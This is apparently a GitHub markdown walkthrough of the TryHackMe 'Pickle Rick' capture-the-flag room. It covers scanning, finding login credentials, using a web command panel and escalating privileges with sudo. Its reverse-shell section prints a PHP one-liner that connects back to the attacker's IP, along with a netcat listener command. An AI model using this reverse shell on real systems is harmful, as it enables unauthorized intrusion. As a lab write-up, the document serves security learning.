







# Pickle Rick
#### A Rick and Morty CTF. Help turn Rick back into a human!
TryHackMe: [Pickle Rick CTF Link](https://tryhackme.com/room/picklerick)
Tools: Nmap, Nikto, Dirbuster, Bash/Python Reverse Shell, and Popcorn

---
## Preparation 
  
 

If you are using your own machine continue below otherwise launch your machine and skip to Scanning
First step is to open your favorite text editor (sublime,notepad++,onenote, etc). Copy and paste the question. 
Find your ip address by going to `ip address| grep inet` take a note of it or save it into a variable `export $IP=[your ip here]`.


## Scanning and Enumeration
 
To begin you are giving an IP address to go to. Launching it you will see a website, we can see that the message on the web is asking to look for a password. So with this knowledge we need to look for login credentials and a login portal. 

*Note: Replace $Attack_IP with the target ip* 
Lets go ahead and run an nmap scan, I run a simple nmap scan but you can run with any parameter you like.
`nmap -A -sT $Attack_IP` 
 

After few seconds we can see two ports that are open 80(http) and 22(ssh). Now we will scan for more and see what else we ccan find. Lets run nikto and dirbuster at the same time on two different terminal.
`nikto -h $Attack_IP` `dirb http://$Attack_IP`
 

Quite interesting, we find a robot.txt during from our dirbuster scanning, and we were able to find out how to get into the login portal. 

Now that we done with scanning and enumeration we can now head back to the webpage.

## Discovery

Now you are at the webpage, lets take a look and see what else we can find. Go ahead and view the page source. 

What do we have here, looks like we found the first part of the credentail which is the username. Where could the password be? Lets go ahead and go to the login portal.
Which earlier we found it was at login.php -> http://$Attack_IP/login.php.

Okay so we have the username but still don't have the password. Earlier we found a robot.txt, looking up we know the this text file control which pages or directories are indexed by search engines.
Opening it, `http://$Attack_IP/robots.txt`, we found something that is related to the Ricky and Morty show (for those who watch the series). This could possibly be the password since there is a relation to the entire theme (username and webpage itself.

Entering the credentials we have now gain access to the portal. 

## Finding the secret
 

Now that we are in, lets browse around. From here we can only see that the command panel is the only revelant thing we can do. With a simple `ls` command we can see a list of files in here. 
HEY LOOK! There is one of the secret ingredient. Trying to use commands to open the text is a no go. So how do we do it. There are three ways:
 

```c
First Option: Using grep command. We can recursively grab everything. Command: grep -R .
Second Option: We can type it in our url http://$Attack_IP/Sup3rS3cretPickl3Ingred.txt
Third Option: Using a reverse shell we will try to gain access and navigate through their system.
```
You can pick whichever option. If you chosen the first option, you can view the page source of what you find. You will find not really an eaaster egg but a base64 code. Which you will have to base64 it over and over only until you get a hidden message. <br>
Second option will tell you the answer and thats it.<br>
However the third option would be more beneficial as it will help us gain access to the 2nd and 3rd ingredients. 

## Reverse Shell
*Note: You do not have to do a reverse shell in order to get the 2nd and 3rd ingredients, which I have found out a bit of playing around using the less command. However it makes it a bit harder for me, so reverse shell makes it easier to navigate.*

You can do a reverse shell of your choice, if you do not know where or how to create a reverse shell here is the link to one: [Reverse Shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
I found that the php reverse shell script worked fine after modifying the IP and/or port number.

`php -r '$sock=fsockopen("10.10.151.177",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'`
*Note: You may have to use python3 instead of python if it doesn't work*

 
Now copy and paste into the Command box, but do not execute it just yet. Next open a terminal and launch a netcat listener `nc -lvnp 4242`, my port number is 4242 yours could be different if you changed it.

Now we are in, at this point if you were to do `pwd` you find that we are in \var\www\html. We will want to go to the root directory. So go ahead and cd to \. 
 

Then you want to `ls -la` to see all the folder/files/directory. Go ahead and browser around. You will find that the /home directory has a user in it call 'Rick', going into this directory, if we type `ls`, we see the second ingredient. Go ahead and open it and now its time to find the last ingredient. 

## Escalation Priviledge
At this point we have browse everywhere to find the third ingredient, however there is one place we cannot get into which is root. So we need to be the root user. Typing in `sudo -l` we try to see if we are root. 
Oh no it does not work. What about `sudo su`? Yes it works, using `whoami` I can see that I am root.
 
Now we will go into the root directory and we can see the third text file. Looking into it we got our last ingredient.

We have completed the Ricky and Morty Room!
